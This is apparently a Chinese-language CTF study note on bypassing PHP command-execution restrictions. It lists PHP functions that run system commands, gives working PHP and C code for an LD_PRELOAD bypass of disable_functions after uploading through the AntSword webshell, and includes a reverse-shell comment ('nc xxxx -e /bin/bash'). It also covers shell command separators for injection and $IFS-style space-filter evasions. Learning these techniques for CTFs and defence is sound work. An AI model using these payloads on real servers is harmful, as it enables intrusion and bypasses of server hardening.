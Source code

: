 包含两块，php代码层面的绕过，和系统命令方面的绕过

## 一：php中一些函数

有反引号，system  exec  passthru   shell_exec等等，这些都是直接执行系统命令。

关键：`assert()`和`eval()`  直接执行php代码，代码中自然可以再调用上面的函数执行系统命令

## 二：重点，Disable_Functions绕过

phpinfo中可以查看Disable_Functions,也就是被禁用的函数。当几乎所有能执行的函数被禁用之后，我们就要使用特殊的绕过方法：

LD_PRELOAD绕过：

LD_PRELOAD是Unix系统中的环境变量，用于**在程序运行时优先加载指定的共享库（`.so` 文件）**，从而可以**覆盖或修改**程序原本调用的标准库函数。这个利用的前提是可以使用蚁剑连接

先用蚁剑上传一个.php，内容如下：

```
<?php
putenv("LD_PRELOAD=./demo.so");
mail('','','','');
?>
#mail()执行过程中一定会调用geteuid()
```

.so文件如下：

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload(){
	system("cat /flag > /tmp/flag");#也可以直接nc反弹shell    nc xxxx  -e /bin/bash
}
int geteuid(){
	unsetenv("LD_PRELOAD");#最好写不然有时候会报错
	payload();
}
```

当然也不用手操，蚁剑的插件的辅助工具类中就有`disable_function绕过`插件，直接使用即可

## 三：系统命令连接符

| ;            | &                                            | \|                                       | &&                                     | \|\|                                   |
| :----------- | -------------------------------------------- | ---------------------------------------- | -------------------------------------- | -------------------------------------- |
| 顺序执行命令 | 需要url编码为%26，前面一个命令在**后台**执行 | 管道符，前面命令的结果作为后面命令的参数 | 前一个命令执行**成功**才执行后一个命令 | 前一个命令执行**失败**才执行后一个命令 |

## 四：空格过滤绕过

1. 重定向字符<>```cat /flag   cat</flag   cat<>/flag```
2. 大括号```{cat,/flag}```
3. 使用$IFS代替；$IFS ${IFS}  $IFS$9                 ```ls$IFS-l```        防止后面的内容被当作变量名使用${IFS}或者$IFS$9，$9是当前系统shell进程第九个命令行参数，一般为空。（到10就要${10}）
4. url编码	%09(Tab)   %20(space)            (基本没用)
